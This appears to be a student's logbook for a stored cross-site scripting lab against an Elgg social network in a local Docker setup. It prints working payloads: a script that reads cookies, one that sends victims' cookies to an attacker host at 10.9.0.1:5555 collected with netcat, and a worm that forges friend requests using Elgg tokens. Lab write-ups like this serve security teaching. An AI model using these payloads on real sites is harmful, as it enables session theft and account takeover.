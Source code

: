 # Log Book 10

## Environment Setup

We successfuly changed the hosts file and ran the server using the `docker-compose` commands.

## Task 1

For this task we want to inject a script into our profile.
We achieved this by posting the following script into our description:

```html
<script>
  console.log("hello");
</script>
```

We will be using `console.log` instead of `alert` to display the required information because
our firefox version blocks all pop-up windows.  
When any user visits our profile, the following message is displayed.

![Task1_Result](LOGBOOK10_img/task1.png)

## Task 2

By changing the description to the following script, we can see the user's cookies.

```
<script>console.log(document.cookie);</script>
```

As can be seen in the picture bellow

![Task2_Result](LOGBOOK10_img/task2.png)

## Task 3

In this task we want to be able to send the user's cookies to a server that belongs
to us, the attacker. In the script bellow, we imbed the cookies that we want to send
in a request that will be made to the attacker's machine

```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

We use the netcat command line tool to listen for any requests made from users that
visited our profile. These requests contain the user's cookies, as can be seen bellow:

![Task3_Result](LOGBOOK10_img/task3.png)

## Task 4

The objective of this task is to write a worm that adds Samy to a user's friend
list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension _HTTP Header Live_,
we can find how a friend HTTP request is encoded:

![Task4_Request](LOGBOOK10_img/task4_request.png)

Using this information, we can create a script that, when executed, forges a request
that adds Samy as a friend to the logged in user.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Similar to the previous tasks, we place this script in our description so that it
will be executed by a user when he enters our profile.

### Example

1. We are logged in as Alice, as can be seen we only have Charlie as our friend.

![Task4_AliceProfile](LOGBOOK10_img/task4_alice_profile.png)

2. When we visit Samy's profile, our script sends a forged friend request.

![Task4_Request](LOGBOOK10_img/task4_request.png)

- We can see that the script was successful, as now we can remove him Samy as a friend.

![Task4_SamyProfile](LOGBOOK10_img/task4_samy_profile.png)

3. When we visit our profile, we can see that we Samy is now our friend.

![Task4_SamyProfileAfterFriend](LOGBOOK10_img/task4_alice_profile_after_friend.png)

### Question 1

The referenced lines serve to send the elgg token in our forged request so that
the server evaluates the request as a valid request from the user.

### Question 2

A successful attack can't be launched since the Editor mode filters HTML special
characters and we can't edit the inner HTML content of the field. Thus, injecting
any script into the _About Me_ field is not possible, as we can't submit the `<script>`
tag into profile.
